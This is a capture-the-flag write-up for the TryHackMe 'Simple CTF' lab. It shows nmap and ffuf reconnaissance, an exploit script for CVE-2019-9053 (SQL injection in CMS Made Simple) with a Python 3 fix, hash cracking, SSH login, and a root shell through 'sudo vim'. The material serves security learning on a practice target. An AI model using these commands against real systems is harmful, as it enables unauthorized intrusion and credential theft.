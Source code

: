 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Simple CTF
# DESCRIPTION       . Beginner level ctf
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/easyctf
```

```bash
sudo nmap -sSVC -T5 10.10.215.71 -p- -oN simplectf
```

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- from the nmap scan, we already see 3 interesting things:

- ssh was moved from the default port `22` to `2222`, in an attempt to hide it from public eye.

- `FTP` is allowing anonymous login 
- `robots.txt` has 2 disallowed entries.

```robots.txt
Disallow: /openemr-5_0_1_3
```

- This made me think that maybe OpenEMR is installed on the webserver, and by looking around I found that version 5.0.1.3 is vulnerable. 

- However, I wanted to see if there's something else hidden around so I've done some fuzzing

```bash
ffuf -u http://10.10.215.71/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 100 -e .php
```

```bash
simple                  [Status: 301, Size: 313, Words: 20, Lines: 10]
```

- This revealed a new page - running CMS Made Simple v2.2.8

- After some googling, I've found on Exploit-DB that all CMS Made Simple versions <= 2.2.10 are vulnerable to unauthenticated SQL injection - [CVE-2019-9053](https://nvd.nist.gov/vuln/detail/CVE-2019-9053)

- I've downloaded the python script and made it work with python3 ... jokes on me :) 

```bash
python3 46635.py -u http://10.10.215.71/simple/ --crack -w /usr/share/wordlists/SecLists/Passwords/darkweb2017-top1000.txt
```

- After running for a while, the script decided that it can't crack the password.

```
if hashlib.md5(str(salt) + line).hexdigest() == password:

TypeError: Strings must be encoded before hashing
```

So I've changed the line to 

```python
hashlib.md5((salt + line).encode()).hexdigest()
```

and gave it another try.

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: {redacted}
```

- Okay, it seems we got some credentials: mitch:{redacted}

- I tried connecting to `FTP` first, but we can't.

```bash
530 This FTP server is anonymous only.
```

**NOTE**: Connecting with `anonymous:anonymous` doesn't reveal anything.

- It seems that the credentials are working for `SSH`.

```bash
ssh mitch@10.10.215.71 -p 2222

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ whoami
mitch
```

- First flag is located at `/home/mitch/user.txt`

- After finding the flag, I've started checking for privilege escalation vectors.

- A simple `sudo -l` reveals that we can use `vim` as `sudo`. This is very powerful, as we can spawn a `shell` under `root`.

```bash
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

```bash
sudo vim -c ':!/bin/bash'
```

- The last flag is at `/root/root.txt`.



